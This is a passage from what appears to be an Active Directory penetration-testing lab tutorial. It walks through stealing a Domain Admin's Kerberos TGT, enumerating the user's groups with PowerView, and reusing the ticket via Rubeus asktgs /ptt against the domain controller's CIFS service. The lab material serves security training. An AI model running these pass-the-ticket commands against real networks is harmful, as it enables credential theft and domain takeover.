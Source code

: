 ```powershell-session
[*] 8/14/2020 11:06:40 AM UTC - Found new TGT:

  User                  :  sarah.lafferty@INLANEFREIGHT.LOCAL
  StartTime             :  8/14/2020 4:06:37 AM
  EndTime               :  8/14/2020 2:06:37 PM
  RenewTill             :  8/21/2020 4:06:37 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  Base64EncodedTicket   :

    doIFmTCCBZWgAwIBBaEDAgEWooIEgjCCBH5hggR6MIIEdqADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9DQUyiKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0lOTEFORUZSRUlHSFQuTE9DQUyjggQsMIIEKKADAgESoQMCAQKiggQaBIIEFr7cTE+mYOQsYF69H0dnaQwX2Iy/dB0k91uEBGQh/Dk0lm12PzkVgX<SNIP>
```

Thanks to `PowerView`, we can list the groups to which Sarah belongs. She happens to be in the `Domain Admins` group. So we have the TGT of a Domain Admin now.

#### Group Enumeration
```powershell-session
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainGroup -MemberIdentity sarah.lafferty

grouptype              : DOMAIN_LOCAL_SCOPE, SECURITY
iscriticalsystemobject : True
samaccounttype         : ALIAS_OBJECT
samaccountname         : Denied RODC Password Replication Group
whenchanged            : 7/26/2020 8:14:37 PM
<SNIP>

grouptype              : GLOBAL_SCOPE, SECURITY
admincount             : 1
iscriticalsystemobject : True
samaccounttype         : GROUP_OBJECT
samaccountname         : Domain Admins
whenchanged            : 8/14/2020 11:04:50 AM
<SNIP>

usncreated             : 12348
grouptype              : GLOBAL_SCOPE, SECURITY
samaccounttype         : GROUP_OBJECT
samaccountname         : Domain Users
whenchanged            : 7/26/2020 8:14:37 PM
<SNIP>
```

So we will use this TGT to access the Domain Controller's `CIFS` service, for example. The `/ptt` option/flag is used to pass the received ticket into memory so that it can be used for future requests.

**Note:** We can also use the command `net view \\COMPUTERNAME` to identify available shares.

#### Using the Ticket to Request another Ticket
```powershell-session
PS C:\Tools> .\Rubeus.exe asktgs /ticket:doIFmTCCBZWgAwIBBaE<SNIP>LkxPQ0FM /service:cifs/dc01.INLANEFREIGHT.local /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

```